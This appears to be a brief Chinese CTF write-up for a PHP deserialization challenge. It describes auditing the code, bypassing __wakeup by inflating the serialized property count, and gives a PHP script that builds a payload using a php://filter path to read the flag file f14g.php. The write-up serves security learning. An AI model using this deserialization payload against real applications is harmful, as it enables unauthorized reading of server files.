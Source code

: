![](./images/image-81.png)

代码真的长。。。。花里胡哨的

先审计一下代码吧。

下面那个类没什么用

关键是上面那个类的want，我们要将其highlight\_file

要要注意绕过wake函数，把序列化的属性加1就行

好像是php7以后对public和private不敏感

这道题无法使用public

```
<?php
class body{
    public $want='php://filter/resource=f14g.php';
    public $todonothing='123';
}
$a=new body;
echo serialize($a);
?>
```
